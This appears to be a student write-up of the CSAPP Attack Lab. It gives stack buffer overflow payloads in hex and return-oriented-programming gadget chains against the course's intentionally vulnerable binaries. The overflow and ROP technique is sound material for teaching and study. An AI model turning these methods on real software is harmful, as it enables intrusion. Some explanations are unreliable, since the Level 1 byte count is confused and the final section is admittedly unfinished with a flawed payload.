




# CSAPP: Attack Lab 

This video is extremely good to understand exploiting stack buffer overflow. [Buffer Overflow Attack - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo)


It is also very important to understand the following stack organzation for a function call. The yellow part is the buffer for callee, in order to overrite into the return statement in blue part, we need to overwrite another 8 bytes. But some assemble code does not use base pointer, so we only need to overwrite another 4 bytes. 


### Part I, Level I

The goal is to when executing `getbuf()` function, making it return to `touch1` function.

Use `objdump -d ctarget > ctarget.asm` to dissemble the code.

`Vim ctarget.asm` to check the code.


We can find the code `sub 0x28, %rsp`, which is a stack buffer used to read string from input. So we know that the buffer length is `0x28`, and the corresponding decimal value is `40`. 

We can also check the address of `touch1` code, where we find the address is `00000000004017c0`




so we need to overwrite another 4 bytes into buffer in order to return `touch1`, so the total number of bytes is 44.  The last four bytes are `00 40 17 c0`, and the little endian encoding is `c0 17 40 00`




### Part I Level 2

The steps to solve this problem. 

1. Like partI level I, overwrite ret statement to transfer execution into  our injected code.
2. Still put injected code into buffer. 
3. Write injected code 

Injected Assemble Code
```
mov $0x59b997fa %rdi
ret
```

Compile it to get bytes representation 



The byte representation is `48 c7 c7 fa 97 b9 59 c3`, 8 bytes in total. 

And we have 56 bytes in total

8 bytes for injected code.

32 bytes for 0 or any other valuess 

8 bytes for return address to injected code 

8 bytes for return address to touch2 code. 

Injected code is stored in the bottom of buffer, so we can use gdb to get the rsp info. 


so the answer is 

```
48 c7 c7 fa 97 b9 59 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
```

### Part2 level 3

Compute a string representation of cookie using ASCII

The cookie value is `0x59b997fa`

the ascii bytes are `35 39 62 39 39 37 66 61 00`

The input string organization is similare to level2. 

first 8 bytes for injected code 

then 9 bytes for cookie string

23 bytes for any values

8 bytes to return to injected code 

8 bytes to return to touch3 

```C
48 c7 c7 80 dc 61 55 c3 /*injected code address in 5561dc78*/
35 39 62 39 39 37 66 61 /*cookie string, address in 5561dc80*/
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /*injected code address*/
fa 18 40 00 00 00 00 00 /*touch 3 address*/
```

But the above string input is not the right answer. The reason is as following 

```
When functions hexmatch and strncmp are called, they push data onto the stack, overwriting
portions of memory that held the buffer used by getbuf. As a result, you will need to be careful
where you place the string representation of your cookie.
```

So we need to change a place to put the cookie string, here , I put cookie string above the touch3 return statement, so we can avoid the cookie string bing overwriten by the rest function calls.  

```C
48 c7 c7 b0 dc 61 55 c3 /*injected code address in 5561dc78*/
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /*injected code address*/
fa 18 40 00 00 00 00 00 /*touch 3 address*/
35 39 62 39 39 37 66 61 /*cookie string, address in 0x5561dc78 + 0x38 = 0x5561dcb0*/
```

### Part II Level 2

Intuitively, we need to obtain gadgets to generate the following assemble code. 

```
mov $0x59b997fa %rdi
ret
```

The most challenging one is to obtain `0x59b997fa`. The basic solution to obtain this value is making use of `pop`

So we can convert the above code into gadgets as following 

```C
//getbuf
...
ret /*return to gadget 1*/

// gadget 1
popq %rax /**/
ret  /*return to gadget 2*/

// gadget 2
movq %rax, %rdi
ret 
```

Obtain gadget 1 assemble as following. We will need `58 90 c3` with starting address at 0x4019a7 + 4 = `0x4019ab`



Obtain gadget 2 assemble as following. We will need `48 89 c7 c3` with starting address at 0x4019a0 + 2 = `0x4019a2`


And then in order to make `0x59b997fa` pop into %rax, we need to overwrite stack. So in total we need to overwrite the addrees of gadget1, data `0x59b997fa`,  then address of gadget2 , address of touch2 into stack. 
```C
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  /*the first 40 bytes*/
ab 19 40 00 00 00 00 00  /*address return to gadget 1*/
fa 97 b9 59 00 00 00 00  /*data to pop into rax in gadget 1*/
a2 19 40 00 00 00 00 00  /* address return to gadget2 */
ec 17 40 00 00 00 00 00  /*address return to touch2*/
```

### Part II Level 3
This lab is unfinished. 

The solution is a combination of Part II level 2 and Part I level 3. 

In this solution, gadgets are the same as Part II level 2.

The extra thing to consider is to compute the cookie address in stack. But the challenging is that the stack position is randomized. So a possible solution is to use relative position like `movq %rsp %rdi`

```
movq %rsp %rax
popq
ret 

popq (not rax)
ret 

movq %rax %rdi
ret
```

```C
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  /*the first 40 bytes*/
ab 19 40 00 00 00 00 00  /*address return to gadget 1*/
fa 97 b9 59 00 00 00 00  /*data to pop into rax in gadget 1*/
a2 19 40 00 00 00 00 00  /* address return to gadget2 */
fa 18 40 00 00 00 00 00  /*address return to touch2*/
35 39 62 39 39 37 66 61  /*cookie string here */
```


